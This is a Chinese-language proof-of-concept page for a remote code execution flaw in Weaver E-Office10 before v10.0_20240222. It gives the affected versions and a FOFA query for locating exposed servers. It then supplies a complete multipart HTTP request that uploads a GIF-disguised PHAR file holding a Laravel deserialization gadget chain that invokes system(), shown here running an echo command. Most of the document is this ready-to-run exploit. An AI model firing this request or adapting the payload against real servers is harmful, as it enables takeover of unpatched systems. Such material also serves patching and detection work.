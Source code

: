 ## 泛微E-Office10版本小于v10.0_20240222存在远程代码执行漏洞

漏洞的关键在于系统处理上传的PHAR文件时存在缺陷。攻击者能够上传伪装的PHAR文件到服务器，利用PHP处理PHAR文件时自动进行的反序列化机制来触发远程代码执行。

## 影响版本
```
v10.0_20180516 < E-Office10 < v10.0_20240222
```


## fofa
```
app="泛微-EOffice"
```


## poc
```
POST /eoffice10/server/public/api/attachment/atuh-file HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 523
Accept: string("*/*")
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=ifedjiqy

--ifedjiqy
Content-Disposition: form-data; name="Filedata"; filename="register.inc"
Content-Type: image/jpeg

GIF89a<?php __HALT_COMPILER(); ?>
D.....................O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:".*.events";O:25:"Illuminate\Bus\Dispatcher":1:{s:16:".*.queueResolver";s:6:"system";}s:8:".*.event";O:38:"Illuminate\Broadcasting\BroadcastEvent":1:{s:10:"connection";s:37:"echo 9yM86ESyFBXNDwCh6Nbsxy9wrcQrP25P";}}....test.txt....K..f.....~..........test.).i..f3....2pq....>....GBMB
--ifedjiqy--
```

## 漏洞来源
- https://mp.weixin.qq.com/s/45_7Qz8AH1w471rbtFCyjw
- https://mp.weixin.qq.com/s/nXg-2YF-iOMZW4mfDBYJYQ
